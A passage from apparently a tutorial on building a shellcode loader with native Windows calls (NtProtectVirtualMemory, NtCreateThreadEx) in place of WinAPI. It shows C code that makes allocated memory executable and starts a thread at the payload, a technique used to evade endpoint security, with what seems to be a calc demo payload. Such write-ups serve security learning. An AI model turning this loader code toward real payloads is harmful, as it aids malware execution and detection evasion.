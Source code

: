 We can put in a sanity check on the NTSTATUS to make sure our memory was allocated properly, but I will be skipping that and assuming our function returned success.

#### NtProtectVirtualMemory

The function definition:
```c
EXTERN_C NTSTATUS NtProtectVirtualMemory(
	IN HANDLE ProcessHandle,
	IN OUT PVOID * BaseAddress,
	IN OUT PSIZE_T RegionSize,
	IN ULONG NewProtect,
	OUT PULONG OldProtect);
```
This is quite similar to the WinAPI VirtualProtect function we are replacing and the NtAllocateVirtualMemory we just created, so we can easily adapt and provide the following parameters:
```c
NTSTATUS NTPVM = NtProtectVirtualMemory(
  hProc, //ProcessHandle
  &base_addr, //BaseAddress
  (PSIZE_T)&calc_len, //RegionSize
  PAGE_EXECUTE_READ, //NewProtect
  &oldprotect); //OldProtect
```

#### NtCreateThreadEx

This function definition is a bit more complex than the previous two:
```c
EXTERN_C NTSTATUS NtCreateThreadEx(
	OUT PHANDLE ThreadHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	IN HANDLE ProcessHandle,
	IN PVOID StartRoutine,
	IN PVOID Argument OPTIONAL,
	IN ULONG CreateFlags,
	IN SIZE_T ZeroBits,
	IN SIZE_T StackSize,
	IN SIZE_T MaximumStackSize,
	IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);
```
We'll have to create a new HANDLE variable:
```c
HANDLE thandle = NULL;
```
And let's take care of the parameters one by one:
```c
NTSTATUS ct = NtCreateThreadEx(
  &thandle, //ThreadHandle
  GENERIC_EXECUTE,//our desired access
  NULL,//optional ObjectAttributes
  hProc,//handle to our process
  base_addr,//StartRoutine aka where do you want to start the thread
  NULL,//optional
  FALSE,//any flags such as create_suspended etc. We don't provide any
  0,//ZeroBits
  0,//StackSize
  0,//MaximumStackSize
  NULL//optional AttributeList
);
```
